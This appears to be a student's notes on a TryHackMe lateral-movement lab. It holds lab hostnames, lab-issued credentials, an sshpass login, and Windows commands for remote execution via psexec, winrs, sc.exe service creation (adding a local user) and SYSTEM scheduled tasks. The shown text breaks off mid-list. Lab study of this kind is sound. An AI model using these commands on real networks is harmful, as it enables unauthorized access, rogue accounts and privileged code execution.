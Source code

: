 ## Introduction

### Request Credentials

Reverse DNS lookup and AXFR request doesn't work

> `/etc/hosts`

```bash
# THM STUFF
10.200.19.101 THMDC za.tryhackme.com THMDC.za.tryhackme.com
10.200.19.249 THMJMP2.za.tryhackme.com
10.200.19.201 THMIIS.za.tryhackme.com
10.200.19.202 distributor.za.tryhackme.com
```

```bash
http://distributor.za.tryhackme.com/creds
```

```bash
Your credentials have been generated: Username: arthur.campbell Password: Pksp9395
```

### Access machine

```bash
sshpass -p 'Pksp9395' ssh -o "StrictHostKeyChecking no" arthur.campbell@thmjmp2.za.tryhackme.com
```

## Moving Through the Network

![](../../attachment/d6013d1c04f8e36264a6f2a3701857d7.png)

## Spawning Processes Remotely

- Psexec
	- `psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe`
- Remote Process Creation Using WinRM
	- `winrs.exe -u:Administrator -p:Mypass123 -r:target cmd`
- Remotely Creating Services Using sc
	- Start
		- `sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto`
		- `sc.exe \\TARGET start THMservice`
	- Stop
		- `sc.exe \\TARGET stop THMservice`
		- `sc.exe \\TARGET delete THMservice`
- Creating Scheduled Tasks Remotely
	- Start
		- `schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00`
		- `schtasks /s TARGET /run /TN "THMtask1"`
	- Stop